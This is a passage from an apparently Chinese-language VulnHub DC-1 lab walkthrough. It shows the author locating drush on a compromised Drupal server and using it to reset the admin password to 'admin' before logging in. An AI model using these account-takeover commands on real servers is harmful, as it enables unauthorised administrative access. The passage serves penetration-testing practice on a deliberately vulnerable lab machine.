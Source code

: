 ok 登上去了

**通过 drush 修改 admin 用户的密码**

Drush是一个 shell 接口，用于从云服务器命令行管理 Drupal。

现在服务器上找找 drush,没有的话还得给他传一个
```
find / -name drush
/var/www/sites/all/modules/views/drush
/var/www/sites/all/modules/ctools/drush
/usr/local/bin/drush
```

然后直接修改 admin 密码
```
/usr/local/bin/drush user-password admin --password="admin"
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/18.png)

测试一下,ok 登上去了

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/19.png)

